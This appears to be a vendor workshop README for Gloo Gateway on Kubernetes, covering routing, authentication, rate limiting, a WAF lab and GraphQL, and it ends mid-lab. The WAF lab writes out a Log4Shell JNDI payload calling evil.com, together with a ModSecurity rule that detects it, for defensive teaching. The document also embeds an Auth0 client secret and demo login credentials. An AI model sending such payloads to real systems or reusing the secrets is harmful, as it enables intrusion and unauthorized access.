


# <center>Gloo Gateway Workshop</center>

## Introduction <a name="introduction"></a>


Gloo Gateway is a feature-rich next-generation API gateway and Ingress built on Envoy and Istio. Gloo Gateway is exceptional in its function-level routing; its support for legacy apps, microservices and serverless; its discovery capabilities; its numerous features; and its tight integration with leading open-source projects. Gloo Gateway is uniquely designed to support hybrid applications, in which multiple technologies, architectures, protocols, and clouds can coexist.


Built on top of the Istio ingress gateway, Gloo API Gateway extends Istio and Envoy by adding in additional functionality on top of its existing feature set.

While Gloo Gateways can be deployed across multiple clusters and centrally managed, in this lab, we will use a single cluster environment.

### Want to learn more about Gloo Gateway?

You can find more information about Gloo Gateway in the official documentation:

[https://docs.solo.io/gloo-mesh-enterprise/latest/concepts/gateway/](https://docs.solo.io/gloo-mesh-enterprise/latest/concepts/gateway/)

## Table of Contents

* [Lab 1 - Deploy Kubernetes cluster](#k8s)
* [Lab 2 - Deploy Gloo Platform](#glooplatform)
* [Lab 3 - Deploy Online Boutique Sample Application](#onlineboutique)
* [Lab 4 - Expose Online Boutique](#expose)
* [Lab 5 - Routing](#routing)
* [Lab 6 - Authentication / API Key](#apikey)
* [Lab 7 - Authentication / JWT + JWKS](#jwt)
* [Lab 8 - Authentication / OIDC](#oidc)
* [Lab 9 - Rate Limiting](#ratelimiting)
* [Lab 10 - Web Application Firewall](#waf)
* [Lab 11 - GraphQL](#graphql)

## Begin

To get started with this workshop, clone this repo.

```sh
git clone https://github.com/solo-io/solo-cop.git
cd solo-cop/workshops/gloo-gateway
```

Set these environment variables which will be used throughout the workshop.

```sh
# Used to enable Gloo Gateway (please ask for a trail license key)
export GLOO_GATEWAY_LICENSE_KEY=<licence_key>
export GLOO_PLATFORM_VERSION=v2.3.0

# Istio version information
export ISTIO_IMAGE_REPO=us-docker.pkg.dev/gloo-mesh/istio-workshops
export ISTIO_IMAGE_TAG=1.16.3-solo
export ISTIO_VERSION=1.16.3
```

## Lab 1 - Configure/Deploy a Kubernetes cluster <a name="k8s"></a>

You will need a single Kubernetes cluster for this workshop.

This workshop can run on many different Kubernetes distributions such as EKS, GKE, OpenShift, RKE, etc or you can run locally using kind or k3d.

* [create local k3d cluster](infra/k3d/README.md)
* [create eks cluster using eksctl](infra/eks/README.md).
* [create gke cluster using gcloud](infra/gke/README.md).

* Set the Kubernetes cluster as your current context.

```sh
kubectl config use-context <context>
```

## Lab 2 - Deploy Gloo Platform <a name="glooplatform"></a>


Gloo Platform provides a management plane to interact with the service mesh and gateways in your environment. The management plane exposes a unified API that is multi-tenant and multi-cluster aware. It is responsible for taking your supplied configuration and updating the gateways in your clusters. Included in the management plane is a UI for policy and traffic observability.

The `meshctl` command line utility provides convenient functions to quickly set up Gloo Platform, register workload clusters, run sanity checks, and debug issues. Let's start by installing this utility.

1. Download `meshctl` command line tool and add it to your path

```sh
curl -sL https://run.solo.io/meshctl/install | GLOO_MESH_VERSION=${GLOO_PLATFORM_VERSION} sh -

export PATH=$HOME/.gloo-mesh/bin:$PATH
```

2. Test that `meshctl` is correctly installed
```sh
meshctl version
```

3. Install Gloo Platform using `meshctl`

```sh
meshctl install --license $GLOO_GATEWAY_LICENSE_KEY --version $GLOO_PLATFORM_VERSION --profiles gloo-gateway-demo --set common.addonNamespace=gloo-gateway-addons
```

4. Check the installation to verify it's healthy
```sh
meshctl check
```

You should see something similar to the following
```sh
🟢 License status

 INFO  gloo-gateway enterprise license expiration is 31 Oct 32 08:14 CDT
 INFO  Valid GraphQL license module found

🟢 CRD version check


🟢 Gloo Platform deployment status

Namespace | Name                           | Ready | Status 
gloo-mesh | gloo-mesh-agent                | 1/1   | Healthy
gloo-mesh | gloo-mesh-redis                | 1/1   | Healthy
gloo-mesh | gloo-mesh-mgmt-server          | 1/1   | Healthy
gloo-mesh | gloo-telemetry-gateway         | 1/1   | Healthy
gloo-mesh | gloo-mesh-ui                   | 1/1   | Healthy
gloo-mesh | prometheus-server              | 1/1   | Healthy
gloo-mesh | gloo-telemetry-collector-agent | 1/1   | Healthy

🟢 Mgmt server connectivity to workload agents

Cluster   | Registered | Connected Pod                                   
cluster-1 | true       | gloo-mesh/gloo-mesh-mgmt-server-7f8855cc56-mgb94
```

## Lab 2 - Deploy Online Boutique Sample Application<a name="onlineboutique"></a>


1. Deploy the Online Boutique microservices to the `online-boutique` namespace.

```sh
helm upgrade --install online-boutique --version "5.0.0" oci://us-central1-docker.pkg.dev/solo-test-236622/solo-demos/onlineboutique \
  --create-namespace \
  --namespace online-boutique
```

## Lab 3 - Expose the Online Boutique <a name="expose"></a>


To capture the traffic coming to the API Gateway and route them to your applications, you need to use the `VirtualGateway` and `RouteTable` resources.

VirtualGateway represents a logical gateway configuration served by Gateway workloads. It describes a set of ports that the virtual gateway listens for incoming or outgoing HTTP/TCP connections, the type of protocol to use, SNI configuration etc.

RouteTables defines one or more hosts and a set of traffic route rules to handle traffic for these hosts. The traffic route rules can be delegated to other RouteTable based on one or more given hosts or specific paths.

This allows you to create a hierarchy of routing configuration and dynamically attach policies at various levels. 

1. Let's start by assuming the role of a Ops team. Configure the Gateway to listen on port 80 and create a generic RouteTable that further delegates the traffic routing to RouteTables in other namespaces.

```yaml
kubectl apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: ingress
  namespace: gloo-mesh-gateways
spec:
  workloads:
    - selector:
        labels:
          app: istio-ingressgateway
        namespace: gloo-mesh-gateways
  listeners: 
    - http: {}
      port:
        number: 80
      allowedRouteTables:
        - host: '*'
          selector:
            namespace: gloo-mesh-gateways
---
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: ingress
  namespace: gloo-mesh-gateways
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: ingress
      namespace: gloo-mesh-gateways
  workloadSelectors: []
  http:
    - name: application-ingress
      labels:
        ingress: all
      delegate:
        routeTables:
        - namespace: online-boutique
EOF
```

2. The Dev team can now write their own RouteTables in their own namespace. Create a RouteTable to send traffic that matches URI `prefix: /` to the frontend application.

```yaml
kubectl apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: frontend
  namespace: online-boutique
spec:
  workloadSelectors: []
  http:
    - matchers:
      - uri:
          prefix: /
      name: frontend
      labels:
        route: frontend
      forwardTo:
        destinations:
          - ref:
              name: frontend
              namespace: online-boutique
            port:
              number: 80
EOF
```

3. Wait for the Gloo Gateway LoadBalancer to become ready
```sh
export GLOO_GATEWAY=$(kubectl -n gloo-mesh-gateways get svc istio-ingressgateway -o jsonpath='{.status.loadBalancer.ingress[0].*}')
printf "\n\nGloo Gateway available at http://$GLOO_GATEWAY\n"
```

You've successfully exposed the frontend application thru the Gloo Gateway.

## Lab 4 - Routing <a name="routing"></a>


### Routing to additional applications in the cluster

Next, lets see how easy it is to expose another application. This time, we will match on URI `prefix: /currencies` and send to the currencyservice application.

* Note: you may notice the `wight: 100` configuration. This tells Gloo gateway to place this RouteTable before the frontend RouteTable with the `/` prefix route which doesnt have a weight. Higher integer values are considered higher priority. The default value is 0.

```yaml
kubectl apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: currency
  namespace: online-boutique
spec:
  weight: 100
  workloadSelectors: []
  http:
    - matchers:
      - uri:
          exact: /currencies
      - uri:
          prefix: /currencies
      name: currency
      labels:
        route: currency
      forwardTo:
        destinations:
          - ref:
              name: currencyservice
              namespace: online-boutique
            port:
              number: 7005
---
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: productcatalog
  namespace: online-boutique
spec:
  weight: 100
  workloadSelectors: []
  http:
    - matchers:
      - uri:
          exact: /products
      - uri:
          prefix: /products
      name: products
      labels:
        route: products
      forwardTo:
        destinations:
          - ref:
              name: productcatalogservice
              namespace: online-boutique
            port:
              number: 3555
---
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: adservice
  namespace: online-boutique
spec:
  weight: 100
  workloadSelectors: []
  http:
    - matchers:
      - uri:
          exact: /ads
      name: adservice
      labels:
        route: adservice
      forwardTo:
        destinations:
          - ref:
              name: adservice
              namespace: online-boutique
            port:
              number: 9560
EOF
```

* Test the Currency API
```sh
curl "$GLOO_GATEWAY/currencies/convert" \
--header 'Content-Type: application/json' \
--data '{
  "from": {
    "currency_code": "USD",
    "nanos": 0,
    "units": 8
  },
  "to_code": "EUR"
}'
```

* Get products from the Product Catalog API
```sh
curl $GLOO_GATEWAY/products
```

* Get Ads for product catagories
```sh
curl "$GLOO_GATEWAY/ads" \
--header 'Content-Type: application/json' \
--data '{
  "context_keys": [
    "footwear"
  ]
}'
```

## Lab 5 - Authentication / API Key <a name="apikey"></a>

API key authentication is one of the easiest forms of authentication to implement. Simply create a Kubernetes secret that contains the key and reference it from the `ExtAuthPolicy`. It is recommended to label the secrets so that multiple can be selected and more can be added later. You can select any header to validate against.

1. Create two secrets that Gloo will validate against. One with the api-key `admin` and the other `developer`.

```yaml
kubectl apply -f - <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: solo-admin
  namespace: gloo-mesh-gateways
  labels:
    api-keyset: httpbin-users
type: extauth.solo.io/apikey
data:
  api-key: $(echo -n "admin" | base64)
---
apiVersion: v1
kind: Secret
metadata:
  name: solo-developer
  namespace: gloo-mesh-gateways
  labels:
    api-keyset: httpbin-users
type: extauth.solo.io/apikey
data:
  api-key: $(echo -n "developer" | base64)
EOF
```

2. Create the API key `ExtAuthPolicy` that will match header `x-api-key` values againt the secrets created above. The `ExtAuthServer` resource configures where authorization checks will be performed

```yaml
kubectl apply -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: ExtAuthServer
metadata:
  name: ext-auth-server
  namespace: gloo-mesh-gateways
spec:
  destinationServer:
    ref:
      cluster: cluster-1
      name: ext-auth-service
      namespace: gloo-gateway-addons
    port:
      name: grpc
---
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: products-apikey
  namespace: gloo-mesh-gateways
spec:
  applyToRoutes:
  - route:
      labels:
        route: products
  config:
    server:
      name: ext-auth-server
      namespace: gloo-mesh-gateways
      cluster: cluster-1
    glooAuth:
      configs:
      - apiKeyAuth:
          headerName: x-api-key
          labelSelector:
            api-keyset: httpbin-users
EOF
```

3. Call httpbin without an api key and you will get a 401 unauthorized message.

```sh
curl -i http://$GLOO_GATEWAY/products
```

4. Call httpbin with the developer api key `x-api-key: developer`

```sh
curl -H "x-api-key: developer" http://$GLOO_GATEWAY/products
```

5. Call httpbin with the admin api key `x-api-key: admin`

```sh
curl -H "x-api-key: admin" http://$GLOO_GATEWAY/products
```


### Routing to External endpoints

Next, lets route to an endpoint (http://httpbin.org) that is external to the cluster. `ExternalService` resource defines a service that exists outside of the mesh. ExternalServices provide a mechanism to tell Gloo Platform about its existance and how it should be communicated with. 

Once an ExternalService is created, a RouteTable can be used to send traffic to it. In this example, we will send traffic on URI `prefix: /httpbin` to this external service.

1. Create a reference to the httpbin.org. The `ExternalService` is a Gloo internal reference that the `RouteTable` can utilize.

```yaml
kubectl apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: httpbin
  namespace: online-boutique
spec:
  hosts:
  - httpbin.org
  ports:
  - name: https
    number: 443
    protocol: HTTPS
    clientsideTls: {}   ### upgrade outbound call to HTTPS
EOF
```

2. Create a new `RouteTable` that will match on requests containing the prefix `/httpbin` and route it to the httpbin `ExternalService`. You may have also noticed that we are rewriting the path using `pathRewrite: /` because httpbin.org is listening for `/get`.

```yaml
kubectl apply -f - <<'EOF'
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: online-boutique
spec:
  weight: 150
  workloadSelectors: []
  http:
    - matchers:
      - uri:
          prefix: /httpbin
      name: httpbin-all
      labels:
        route: httpbin
      forwardTo:
        pathRewrite: /
        destinations:
        - ref:
            name: httpbin
          port: 
            number: 443
          kind: EXTERNAL_SERVICE
EOF
```

3. Let's test it.

```sh
curl -v $GLOO_GATEWAY/httpbin/get
```

## Lab 8 - Authentication / JWT + JWKS<a name="jwt"></a>

JWT authentication using JSON web key sets (JWKS) is a much more robust mechanism for authentication as keys can be shorter lived / rotated and the validation is done against rotating keys. Also more information can be stored in JWTs vs API keys. In this example Auth0 is used as the JWT signer and JWKS provider. 

To create your own Auth0 Tokens, create an Auth0 `Application` and the JWKS will be located at `"https://<Auth0 Server>/.well-known/jwks.json"` and tokens can be generated calling the `https://<Auth0 Server>/oauth/token` endpoint.


1. First create an `ExternalService` to reference the `Auth0` server.

```yaml
kubectl apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: auth0
  namespace: gloo-mesh-gateways
spec:
  hosts:
  - dev-64ktibmv.us.auth0.com
  ports:
  - name: https
    number: 443
    protocol: HTTPS
    clientsideTls: {}
EOF
```

2. Create the `JWTPolicy` to authenticate JWT tokens.

```yaml
kubectl apply -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: JWTPolicy
metadata:
  name: currency
  namespace: gloo-mesh-gateways
spec:
  applyToRoutes:
  - route:
      labels:
        route: currency
  config:
    providers:
      auth0:
        issuer: "https://dev-64ktibmv.us.auth0.com/"
        audiences:
        - "https://httpbin/api"
        remote:
          url: "https://dev-64ktibmv.us.auth0.com/.well-known/jwks.json"
          destinationRef:
            ref:
              name: auth0
              namespace: gloo-mesh-gateways
              cluster: cluster-1
            kind: EXTERNAL_SERVICE
            port:
              number: 443
          enableAsyncFetch: true
EOF
```

3. Call `Auth0` to generate a temporary JWT token

```sh
ACCESS_TOKEN=$(curl -sS --request POST \
  --url https://dev-64ktibmv.us.auth0.com/oauth/token \
  --header 'content-type: application/json' \
  --data '{"client_id":"1QEVhZ2ERqZOpTQnHChK1TUSKRBduO72","client_secret":"J_vl_qgu0pvudTfGppm_PJcQjkgy-kmy5KRCQDj5XHZbo5eFtxmSbpmqYT5ITv2h","audience":"https://httpbin/api","grant_type":"client_credentials"}' | jq -r '.access_token')

printf "\n\n Access Token: $ACCESS_TOKEN\n"
```

4. Try calling currency service with no access token. You will need `grpcurl` installed and it can be downloaded here: [grpcurl installation](https://github.com/fullstorydev/grpcurl#installation)

```sh
curl "$GLOO_GATEWAY/currencies/convert" \
--header 'Content-Type: application/json' \
--data '{
  "from": {
    "currency_code": "USD",
    "nanos": 0,
    "units": 8
  },
  "to_code": "EUR"
}'
```

5. Call currency service with an access token

```sh
curl -H "Authorization: Bearer ${ACCESS_TOKEN}" "$GLOO_GATEWAY/currencies/convert" \
--header 'Content-Type: application/json' \
--data '{
  "from": {
    "currency_code": "USD",
    "nanos": 0,
    "units": 8
  },
  "to_code": "EUR"
}'
```

## Lab 9 - Authentication / OIDC<a name="oidc"></a>


Another valuable feature of API gateways is integration into your IdP (Identity Provider). In this section of the lab, we see how Gloo Gateway can be configured to redirect unauthenticated users via OIDC.  We will use Keycloak as our IdP, but you could use other OIDC-compliant providers in your production clusters.

1. First, install Keycloak to use as our OIDC server.

```sh
./install/keycloak/setup.sh

export KEYCLOAK_CLIENTID=$(kubectl get configmap -n gloo-mesh keycloak-info -o json | jq -r '.data."client-id"')
export KEYCLOAK_URL=http://$(kubectl -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].*}'):9000/auth

printf "\n\nKeycloak OIDC ClientID: $KEYCLOAK_CLIENTID\n\nKeycloak URL: $KEYCLOAK_URL\n"
```

2. In order for OIDC to work we need to enable HTTPS on our gateway. For this demo, we will create and upload a self-signed certificate which will be used in the gateway for TLS termination.

```sh
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
   -keyout tls.key -out tls.crt -subj "/CN=*"

kubectl -n gloo-mesh-gateways create secret generic tls-secret \
--from-file=tls.key=tls.key \
--from-file=tls.crt=tls.crt

rm tls.crt tls.key
```

3. Adding HTTPS to our gateway is simple as updating the virtual gateway to use our ssl certificate.

```yaml
kubectl apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: ingress
  namespace: gloo-mesh-gateways
spec:
  workloads:
    - selector:
        labels:
          app: istio-ingressgateway
        namespace: gloo-mesh-gateways
  listeners:
    - http: {}
      port:
        number: 80
    - http: {}
      port:
        number: 443
      tls:
        mode: SIMPLE
        secretName: tls-secret # NOTE
      allowedRouteTables:
        - host: '*'
          selector:
            namespace: gloo-mesh-gateways
EOF
```

4. Test out the new HTTPS endpoint (you may need to allow insecure traffic in your browser. Chrome: Advanced -> Proceed)

```sh
export GLOO_GATEWAY_HTTPS=$(kubectl -n gloo-mesh-gateways get svc istio-ingressgateway -o jsonpath='{.status.loadBalancer.ingress[0].*}'):443

echo "Secure Online Boutique URL: https://$GLOO_GATEWAY_HTTPS"
```

The `ExtAuthPolicy` defines the provider connectivity including any callback paths that we need to configure on our application.

5. View the `ExtAuthPolicy` with environment variables replaced.

```sh
( echo "cat <<EOF" ; cat tracks/ext-auth-policy.yaml ; echo EOF ) | sh
```

6. Apply the `ExtAuthPolicy`

```sh
( echo "cat <<EOF" ; cat tracks/ext-auth-policy.yaml ; echo EOF ) | sh | kubectl apply -f -
```

Now if you refresh the application, you should be redirected to Keycloak to login.

7. Login using the following credentials

```sh
user: gloo-gateway
password: solo.io
```

And the application is now accessible.

8. When you are finished, click the 'logout' button in the top right corner of the screen.

## Lab 10 - Rate Limiting<a name="ratelimiting"></a>


Secondly, we will look at rate limiting with Gloo Gateway.  The rate limiting feature relies on a rate limit server that has been installed in our gloo-mesh-addons namespace.

For rate limiting, we need to create three CRs.  Let's start with the `RateLimitClientConfig`.

The `RateLimitClientConfig` defines the conditions in the request that will invoke rate limiting.  In this case, we will define a key coming from the header `X-Organization`.

The `RateLimitPolicy` pulls together the `RateLimitClientConfig`, `RateLimitServerConfig` and sets the label selector to use in the `RouteTable`.

1. Configure the rate limiting API. 
```yaml
kubectl apply -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitClientConfig
metadata:
  name: rate-limit-client-config
  namespace: gloo-mesh-gateways
spec:
  raw:
    rateLimits:
    - actions:
      - genericKey:
          descriptorValue: counter
---
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerSettings
metadata:
  name: rate-limit-server-settings
  namespace: gloo-mesh-gateways
spec:
  destinationServer:
    port:
      number: 8083
    ref:
      name: rate-limiter
      namespace: gloo-gateway-addons
      cluster: cluster-1
EOF
```

2. Configure the RateLimitPolicy
```yaml
kubectl apply -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerConfig
metadata:
  name: rate-limit-server-config
  namespace: gloo-mesh-gateways
spec:
  destinationServers:
  - ref:
      name: rate-limiter
      namespace: gloo-gateway-addons
    port:
      name: grpc
  raw:
    descriptors:
    - key: generic_key
      rateLimit:
        requestsPerUnit: 3 # 3 requests per minute
        unit: MINUTE
      value: counter
---
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitPolicy
metadata:
  name: rate-limit-policy
  namespace: gloo-mesh-gateways
spec:
  applyToRoutes:
  - route:
      labels:
        route: products ##### NOTE
  config:
    serverSettings:
      name: rate-limit-server-settings
      namespace: gloo-mesh-gateways
    ratelimitClientConfig:
      name: rate-limit-client-config
      namespace: gloo-mesh-gateways
    ratelimitServerConfig:
      name: rate-limit-server-config
      namespace: gloo-mesh-gateways
EOF
```

3. Test Rate Limiting

```sh
for i in {1..6}; do curl -iksS -H "x-api-key: developer" -X GET https://$GLOO_GATEWAY_HTTPS/products | tail -n 10; done
```

4. Expected Response

```sh
HTTP/2 429
x-envoy-ratelimited: true
date: Sun, 05 Jun 2022 18:50:53 GMT
server: istio-envoy
x-envoy-upstream-service-time: 7
```

## Lab 11 - Web Application Firewall (WAF)<a name="waf"></a>


Gloo Gateway utilizes OWASP ModSecurity to add WAF features into the ingress gateway. Not only can you enable the [OWASP Core Rule Set](https://owasp.org/www-project-modsecurity-core-rule-set/) easily, but also you can enable many other advanced features to protect your applications.

In this section of the lab, take a quick look at how to prevent the `log4j` exploit that was discovered in late 2021. For more details, you can review the [Gloo Edge blog](https://www.solo.io/blog/block-log4shell-attacks-with-gloo-edge/) that this implementation is based on.

1. Refer to following diagram from Swiss CERT to learn how the `log4j` attack works. Note that a JNDI lookup is inserted into a header field that is logged.


2. Confirm that a malicious JNDI request currently succeeds. Note the `200` success response. Later, you create a WAF policy to block such requests.

```sh
curl -ik -X GET -H "x-api-key: developer" -H "User-Agent: \${jndi:ldap://evil.com/x}" https://$GLOO_GATEWAY_HTTPS/products
```

3. With the Gloo WAF policy custom resource, you can create reusable policies for ModSecurity. Review the `log4j` WAF policy and the frontend route table. Note the following settings.

* In the route table, the top level route has the label `ingress: all`. The WAF policy applies to ALL routes through the ingress gateway.
* In the WAF policy config, the default core rule set is disabled. Instead, a custom rule set is created for the `log4j` attack.

```yaml
kubectl apply -f - <<'EOF'
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4jshell
  namespace: gloo-mesh-gateways
spec:
  applyToRoutes:
  - route:
      labels:
        ingress: all ##### NOTE
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |-
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*
          "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://"
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

4. Try the previous request again on multiple endpoints

```sh
# Products API
curl -ik -X GET -H "x-api-key: developer" -H "User-Agent: \${jndi:ldap://evil.com/x}" https://$GLOO_GATEWAY_HTTPS/products

# Currency API
curl -ik -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" http://$GLOO_GATEWAY/currencies
```

Note that the request is now blocked with the custom intervention message from the WAF policy.

```sh
HTTP/2 403
content-length: 27
content-type: text/plain
date: Wed, 18 May 2022 21:20:34 GMT
server: istio-envoy

Log4Shell malicious payload
```

Your applications are no longer susceptible to `log4j` attacks, nice!


## Lab 12 - Graphql<a name="graphql"></a>

GraphQL is an open-source data query language for APIs that is growing in popularity among enterprises seeking to simplify client-server interactions. It provides a powerful and flexible alternative to standards like OpenAPI for requesting data from microservices applications via declarative data fetching, with a client specifying exactly what data it needs from an API and underlying services through a single endpoint.

Although GraphQL provides a consistent and predictable API, the code, time, and effort required to build the GraphQL server to respond to requests can be considerable, requiring developers to write specific libraries for caching, security, rate-limiting, failover, and many other functions.

In this section, we will begin our exploration of using Gloo Platform to publish GraphQL APIs without the need for a dedicated, backend GraphQL server.

* To enable graphql we are going to add a demo `CORSPolicy` to make communicating with the GraphQL easy
```yaml
kubectl apply -f -<<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: CORSPolicy
metadata:
  name: cors-policy
  namespace: online-boutique
spec:
  applyToRoutes:
  - route:
      labels:
        ingress: all
  config:
    allowCredentials: true
    allowHeaders:
    - content-type
    allowMethods:
    - POST
    allowOrigins:
    - regex: '.*'
EOF
```

1. Since we already have HTTP based APIs, we can offer these APIs as GraphQL ones with some simple Gloo Platform Configuration. First lets define two GraphQL queries `ListProducts` and `GetProduct` that will call their respective HTTP apis. 

```yaml
kubectl apply -f -<<EOF
apiVersion: apimanagement.gloo.solo.io/v2
kind: GraphQLResolverMap
metadata:
  name: products
  namespace: online-boutique
spec:
  types:
    Query:
      fields:
        ListProducts:
          resolvers:
          - restResolver:
              destinations:
              - port:
                  number: 3555
                ref:
                  cluster: cluster-1
                  name: productcatalogservice
                  namespace: online-boutique
              request:
                headers:
                  :method:
                    json: GET
                  :path:
                    json: /products
        GetProduct:
          variables:
            productVar:
              graphqlArg: id
            resolverResultVar:
              resolverResult: {}
          resolvers:
          - restResolver:
              destinations:
              - port:
                  number: 3555
                ref:
                  cluster: cluster-1
                  name: productcatalogservice
                  namespace: online-boutique
              request:
                headers:
                  :method:
                    json: GET
                  :path:
                    jq: '"/products/id/" + (.productVar | tostring)'
EOF
```

2. Secondly we need to define GraphQL schemas for these queries. Below is an `ApiDoc` reference for the products API.

```yaml
kubectl apply -f -<<EOF
apiVersion: apimanagement.gloo.solo.io/v2
kind: ApiDoc
metadata:
  name: products
  namespace: online-boutique
spec:
  graphql:
    schemaDefinition: |-
      type Price { currency_code: String units: String nanos: Int }
      
      type Product { 
        id: String
        name: String
        description: String
        picture: String
        categories: [String]
        price_usd: Price
      }

      type ProductList { products: [Product] }

      type Query {
        ListProducts: ProductList
        GetProduct(id: String): Product
      }
EOF
```

3. Finally combine the `APIDoc` and `GraphQLResolverMap` using a `GraphQLSchema` which we then can reference in a `RouteTable`
```yaml
kubectl apply -f -<<EOF
apiVersion: apimanagement.gloo.solo.io/v2
kind: GraphQLSchema
metadata:
  name: products
  namespace: online-boutique
spec:
  resolved:
    options: 
      enableIntrospection: true
    resolverMapRefs:
    - name: products
      namespace: online-boutique
      clusterName: cluster-1
  schemaRef:
    name: products
    namespace: online-boutique
    clusterName: cluster-1
---
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: graphql-products
  namespace: online-boutique
spec:
  weight: 50
  workloadSelectors: []
  http:
  - name: products
    graphql:
      options:
        logSensitiveInfo: true
      schema:
        name: products
        namespace: online-boutique
        clusterName: cluster-1
    matchers:
    - uri:
        prefix: /graphql-products
EOF
```

4. Navigate to the `APIS` page in the Gloo Platform UI
```
meshctl dashboard
```


5. Click on `products-graphql-routes.online-boutique.cluster-1` API


6. Click on `Explore API` and then update `Settings` to use the `/graphql-products` prefix.



7. Run the following queries to query data

* List all products

```graphql
query ListProductsQuery {
  ListProducts {
    products {
      price_usd {
        currency_code
        units
        nanos
      }
      name
      id
    }
  }
}
```

* Get a specific product

```graphql
query GetProductQuery {
  GetProduct(id: "66VCHSJNUP") {
    categories
    description
    id
    name
    picture
    price_usd {
      currency_code
      nanos
      units
    }
  }
}
```


8. Combine the queries to fetch the data all together
```graphql
query CombinedQuery {
  ListProducts {
    products {
      id
    }
  }
  GetProduct(id: "66VCHSJNUP") {
    description
    id
  }
}
```

## Custom Resolvers

The Online Boutique is going international. There is a problem through, all prices are currently in USD only. We need to call the currency conversion to translate the price into different denominations. This lab will shop the power of custom resolvers and how they can significantly increase the benefit to using this style of API.

* Current response with price_usd
```json
{
  "data": {
    "GetProduct": {
      "categories": [
        "accessories"
      ],
      "description": "Add a modern touch to your outfits with these sleek aviator sunglasses.",
      "id": "OLJCESPC7Z",
      "name": "Sunglasses",
      "picture": "/static/img/products/sunglasses.jpg",
      "price_usd": {
        "currency_code": "USD",
        "nanos": 990000000,
        "units": "19"
      }
    }
  }
}
```

1. First lets add the currency GraphQL API

```yaml
kubectl apply -f -<<EOF
apiVersion: apimanagement.gloo.solo.io/v2
kind: ApiDoc
metadata:
  name: currencies
  namespace: online-boutique
spec:
  graphql:
    schemaDefinition: |-
      type CurrencyCodes { currency_codes: [String] }

      type Currency {
          currency_code: String
          nanos: Int
          units: Int
      }

      input InputCurrency {
          currency_code: String
          nanos: Int
          units: Int
      }

      input CurrencyConversion {
          from: InputCurrency
          to_code: String
      }

      type Query {
          GetCurrencies: CurrencyCodes
          ConvertCurrency(request: CurrencyConversion): Currency
      }
EOF
```

2. Now lets create the resolvers

```yaml
kubectl apply -f -<<EOF
